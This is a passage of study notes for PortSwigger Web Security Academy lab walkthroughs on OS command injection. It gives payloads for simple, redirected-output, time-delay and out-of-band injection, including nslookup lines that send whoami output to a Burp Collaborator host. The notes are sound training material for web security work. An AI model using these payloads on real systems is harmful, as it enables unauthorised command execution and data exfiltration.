       ```
    - **Usage:**
      ```bash
      python psptchecker.py https://<your-lab>.web-security-academy.net/
      ```


### 04 - OS Command Injection

- **Check Stock → storeId parameter**
    - **Vulnerability:** OS Command Injection
        - **Description:** The application executes system commands using the value of the storeId parameter in a POST request to /product/stock. Lack of proper input validation allows attackers to inject shell commands using standard chaining operators.
        - **Common Payloads:**
            - `1;whoami`
            - `1|whoami`
            - `1%26whoami`
            - `1%3bwhoami`
        - **Relevant Labs:**
            - _OS Command Injection, Simple Case_
- **Submit Feedback → email / subject parameter**
    - **Vulnerability:** Blind OS Command Injection – Output Redirection
        - **Description:** The application processes user-supplied data and passes it into a backend shell command. Although the response does not show direct output, command injection is possible using output redirection. The output is written to a file inside a web-accessible directory, which can then be fetched to confirm exploitation.
        - **Common Payloads:**
            - `||whoami>/var/www/images/output.txt||`
            - `& whoami > /var/www/images/whoami.txt &`
            - `%26+whoami+%3E+%2Fvar%2Fwww%2Fimages%2Fwhoami.txt+%26`
        - **Retrieve Output:**
            - `https://<lab-id>.web-security-academy.net/image?filename=output.txt`
            - `https://<lab-id>.web-security-academy.net/image?filename=whoami.txt`            
        - **Relevant Labs:**
            - _Blind OS Command Injection with Output Redirection_
- **Submit Feedback → email parameter**
    - **Vulnerability:** Blind OS Command Injection – Time Delays
        - **Description:** The application does not return command output to the client, but executes shell commands with unsanitized user input. Time-based detection techniques are used to confirm command execution by observing artificial delays (e.g., ping, sleep). This is useful when other blind techniques like output redirection are blocked.
        - **Common Payloads:**
            - `& ping -c 10 127.0.0.1 &`
            - `%26+ping+-c+10+127.0.0.1+%26`
            - `| sleep 10 |`
        - **Detection Tips:**
            - Use tools like Burp Repeater to measure response time
            - Run `tcpdump -i [interface] icmp` on attacker machine to detect ping requests
        - **Relevant Labs:**
            - _Blind OS Command Injection with Time Delays_
    - **Vulnerability:** Blind OS Command Injection – Out-of-Band Interaction
        - **Description:** The application does not display command output to the user, but the server still executes injected shell commands. An attacker can confirm this by observing external DNS or HTTP requests generated by the injected command using a Burp Collaborator payload.
        - **Common Payloads:**
            - ``||nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
            - `x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
            - `||nslookup+$(whoami).BURP-COLLABORATOR-SUBDOMAIN||`
        - **Detection Tips:**
            - Use Burp Suite Professional and the Collaborator client
            - Poll Collaborator to verify DNS interaction
            - Look for `whoami` output encoded into subdomain queries
        - **Relevant Labs:**